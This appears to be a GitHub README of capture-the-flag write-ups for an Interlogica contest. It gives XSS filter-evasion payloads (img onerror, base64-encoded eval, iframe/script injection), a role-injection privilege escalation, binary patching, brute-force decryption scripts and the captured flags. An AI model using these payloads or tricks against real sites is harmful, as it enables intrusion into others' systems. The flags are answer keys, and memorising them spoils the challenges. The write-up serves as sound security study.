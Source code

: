 # CTF-CodeInTheDark
Interlogica CTF Code in the dark:
[https://ctf.codeinthedark.dev/challenges](https://ctf.codeinthedark.dev/challenges)

## 1 - eXSStravaganza-1

Trigger an alert(1) in the small browser by evading the sanitizer's countermeasures. NOTE: the alert must be triggerable offline and without any further actions by the user.
The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // warmup
    return input;
}
```

Hints:  
Browser says `An iframe which has both allow-scripts and allow-same-origin for its sandbox attribute can escape its sandboxing.`.


Solution:
```
<iframe src="http%3A//hithere" 
        scrolling="no" sandbox="allow-scripts allow-popups allow-modals allow-same-origin" 
        name="sandbox" style="width: 100%; height: 100%; border: 0px;"></iframe>
<script>
   alert(1);
</script>
```

## 2 - eXSStravaganza-2

The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // no scripts!
    if (input.toLowerCase().includes('script')) {
        return 'NO!';
    }
    return input;
}
```

Solution:
```
<img src="" onerror=alert(1)>
```

Thanks M9k!

## 3 - Unbreakable secret
Just call the function from console.

## 4 - The Bl0g
Register. Password of moderator is in the user profile image. Get sources as moderator. Sources show that registratin take role too. Register as admin. As admin go to admin page and see flag.


## 5 - eXSStravaganza-3

The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // no alert!
    if (input.toLowerCase().includes('alert')) {
        return 'NO!';
    }
    return input;
}
```

Solution:
```
<iframe src="" 
        scrolling="no" sandbox="allow-scripts allow-popups allow-modals allow-same-origin" 
        name="sandbox" style="width: 100%; height: 100%; border: 0px;"></iframe>

<script>
console.log("hi");
eval(atob('YWxlcnQoMSk7'));
</script>
```

Where `YWxlcnQoMSk7` is `alert(1);`.  
  
Or you can use `eval("al"+"ert(1)")`, thanks pal!
## Forensics - Bad request-1
Open with Wireshark, tools -> credentials, click on the packet, look inside the http and Wireshark automatically will convert the auth bearer to plaintext:
![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/11a6c6a6-f99e-419e-a0f9-75564f469f5c)

## Reversing - PWNVOYAGE-LEVEL0 (40 coins)
Bruteforce with some intuition. The code was "TOOYOUNGTODIEBRO". The code is PRLG{HURT_M3_PL3NTY}

## Reversing - PWNVOYAGE-LEVEL1 (90 coins)
Follow the instruction for the file, analyzing the assembly the password is U_R_MY_H3RO, The code is NTRLGC{TH1SH1LLSM3LLSL1K3V1CT0RY}.

![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/1120c293-8dda-445c-805f-7d55cbb07012)

## Reversing - PWNVOYAGE-LEVEL2 (110 coins)
Follow the instruction for the file, patched the assembly, address 00101764 changed from JZ to JNZ. The code is NTRLGC{H3LL0B1TCH3S!}.
![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/5a1df428-719c-4477-ae89-de6dd7e7ec89)

![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/ea3d815a-7a46-44ca-a1b3-1e427517a326)



## Crypto - Intercepted message (90 coins)
Resolver in Powershell, each character is shifted based on his position, with an overflow when needed. The code is NTRLGC{CaesarSaladsForEveryone}.
```
function Convert-String {
    param (
        [string]$inputString
    )
    
    $outputString = ""

    for ($i = 0; $i -lt $inputString.Length; $i++) {
        $char = $inputString[$i]
        $asciiValue = [int][char]$char
        $newAsciiValue = $asciiValue - $i
        if ($newAsciiValue -lt 33) {
            $newAsciiValue += 95;
        }
        $newChar = [char]$newAsciiValue
        $outputString += $newChar
        Write-Host "--------------"
        Write-Host $char
        Write-Host $asciiValue
        Write-Host $newAsciiValue
        Write-Host $newChar
    }
    return $outputString
}

# Input string
$inputString = 'NUTOKH"Jin}l~`o{qu&Y$([.},4++#<'

# Call the function and store the result
$result = Convert-String -inputString $inputString

# Output the result
Write-Host "Original string: $inputString"
Write-Host "Transformed string: $result"
```


## Crypto - Space (90 coins)
Bruteforced, it take less than a second on my PC. The code is NTRLGC{m4y-7h3-47h-b3-w17h-y0u!}.
```
#!/usr/bin/env python3
import hashlib
import argparse

ct = "w2a\x7fq'I\tUOLV\\UOQR\\L\x07R\x1c\x12\x07\x04X\x14HRD\x12H"

def md5(msg:str)->str:
    return hashlib.md5(msg.encode()).hexdigest()

def xor(data:str,key:str):    
    return ''.join(chr(ord(a) ^ ord(b)) for a,b in zip(data, key))

def main():
    year = 2023
    month = 1
    day = 1
    while (True):
        key = f"{year:04}-{month:02}-{day:02}"
        hkey = md5(key)
        result = xor(ct, hkey)
        if (result.startswith('NTRLGC')):
            print(result)
        day += 1
        if (day > 31):
            day = 1
            month +=1
            if(month > 12):
                month = 1
                year -= 1

if __name__ == "__main__":
    main()
```

